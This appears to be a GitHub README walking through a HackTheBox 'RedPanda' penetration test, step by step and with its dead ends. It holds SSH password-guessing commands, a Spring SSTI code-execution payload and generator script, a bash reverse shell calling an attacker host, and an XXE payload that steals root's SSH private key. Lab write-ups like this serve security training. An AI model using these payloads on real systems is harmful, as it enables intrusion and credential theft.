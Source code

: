 # RedPanda    
### A demonstration walkthrough of a pen test process using HTB's RedPanda with some normal dead ends as an example.  

#### Setup
/etc/hosts appended with "10.10.11.170 redpanda.htb"  
Firefox proxied via Zap, Zap proxied via Burp with intercept initially turned off  

Basic scan of all ports 
```
nmap -p- redpanda.htb
```
Shows ssh/22 and http/8080

The preferred way to scan.  A fast scan of all ports then a deeper scan for services on the found ports  
```
ports=$(nmap -p- --min-rate=1000 -T4  redpanda.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports redpanda.htb
nikto -h redpanda.htb:8080
```
Interesting Results (NMAP):  
- Running OpenSSH 8.2p1 and an unknown hhtp-proxy "Made by Spring Boot" in title  
Interesting Results (NIKTO):   
- /stats/ directory discovered
- HTTP PUT and DELETE methods allowed  
- "content-disposition" header returned    

Browse for unlinked files/resources  
```
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://redpanda.htb:8080/FUZZ | grep -wv 404 | grep 0000
```
POST allowed to redpanda.htb:8080/search
Confirm /stats/ responds to GET requests

**DEAD END:** Running OWASP ZAP only turned up vectors for attacking RedPanda clients.
**DEAD END:** Browsing site showed nothing interesting in source.
**DEAD END:**  Using Hydra to guess common username/passwords for SSH.  Trying a small set of default username and password combinations work more often in real world vs. simulations.  
```
echo 'root\nuser\nadmin\nadministrator\ndevelopment\ntest\nredpanda\napache\nwoodenk\ndamian' > redpanda.htb.usernames
echo 'password\nPassword\nPassw0rd\nPassw0rd!' > redpanda.htb.passwords
hydra -L redpanda.htb.usernames -P redpanda.htb.passwords -e nsr ssh://redpanda.htb
```

**DEAD END:**  Attempted various SQLi, XXE, and Command injection on search function

### SSTI
A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.  

See [here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) for further information.

We are provided with a list of payloads:
```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```
Some of the payloads didn't work, since some of the symbols (specifically $) are blacklisted by the server.

### Creating a RCE
The nmap scan indicated the app is powered by "Spring Boot"  
Not being familar with Spring Boot, a Google found this good template [here](https://blog.hawkeyesecurity.com/2017/12/13/rce-via-spring-engine-ssti/)  
This returns /etc/passwd

Replace the blacklisted $ with #
```
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
This confirms the user "woodenk" with the standard home directory; still no password.

Python program to convert the command we want into a string suitable for SSTI in RedPanda search
```
#!/usr/bin/python3

def main():

        command = "whoami" # Edit this line for acceptable SSTI encoding 
        convert = []

        for x in command:
            convert.append(str(ord(x)))
        
        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % convert[0]

        for i in convert[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"

        print(payload)

if __name__ == "__main__":
    main()
```
`command = "whoami"` confirms the website is running as user woodenk
### USER FLAG SUCCESS!
`command = "cat /home/woodenk/user.txt"` provides the user flag

### Plan for escalation
Using SSTI: 1) Upload shell script to create reverse shell.  2) Invoke shell script

Host the following shell script on the attacking machine.  I prefer:  `python -m http.server 8000`
```
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.ATTACKER.IP/9001 0>&1"
```
SSTI to upload script
`command = "curl 10.10.ATTACKER.IP:8000/shell.sh --output /tmp/shell.sh"`

Create netcat listener, then invoke uploaded shell script
`nc -nvlp 9001`

SSTI to invoke script
`command = "bash /tmp/shell.sh"`

### Connected with reverse shell as woodenk
Time for some basic enumeration on panda and woodenk
```
find / -name "*panda*" 2>/dev/null
find / -name "*woodenk*" 2>/dev/null
```

This gives us a source code directory (maybe some nice config info) and user XML files in /credits  

```
cd /opt/panda_search
find . -type f -exec grep -H 'text-to-find-here' {} \;
```

This gives mysql connection info and 'woodenk' embedded in some images  

`./src/main/java/com/panda_search/htb/panda_search/MainController.java:            conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "woodenk", "RedPandazRule");`


Try LinPEAS to find escalation  
From github to your attacking machine (HTB machines don't resolve WWW domains)
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
```
On target machine upload linPEAS
```
curl -L http://10.10.14.2:8000/linpeas.sh | sh
```
**DEAD END** nothing I saw for OS level escalation  

### MySQL dump
```
mysqldump -u woodenk -pRedPandazRule red_panda 
```
This tells us the "panda" table has four fields (name, bio, imgloc, author)

ROOT requires XXE (this is just crib notes)
Full walkthrough [here](https://shakuganz.com/2022/07/12/hackthebox-redpanda/)

XXE.1 Set the "artist" value in an attack image
```
exiftool -Artist="../tmp/gg" pe_exploit.jpg
```

XXE.2 Create `gg_creds.xml` with the following content
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa" >]>
<credits>
  <author>gg</author>
  <image>
    <uri>/../../../../../../tmp/pe_exploit.jpg</uri>
    <views>1</views>
    <foo>&xxe;</foo>
  </image>
  <totalviews>2</totalviews>
</credits>
```

XXE.3 upload files and modify the redpanda.log
```
wget 10.10.ATTACKER.IP/pe_exploit.jpg -P /tmp
wget 10.10.ATTACKER.IP/gg_creds.jpg -P /tmp
echo "222||a||a||/../../../../../../tmp/pe_exploit.jpg" > /opt/panda_search/redpanda.log
```

In minute or two /tmp/gg_creds.xml is updated
```
cat /tmp/gg_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo>
<credits>
  <author>gg</author>
  <image>
    <uri>/../../../../../../tmp/pe_exploit.jpg</uri>
    <views>2</views>
    <foo>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNza...cut...mVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</foo>
  </image>
  <totalviews>3</totalviews>
</credits>
```

Put the `foo` element value into a file `le_key.txt` and login as root
```
chmod 600 ./le_key.txt
ssh root@redpanda.htb -i le_key.txt
```

### ROOT SUCCESS!
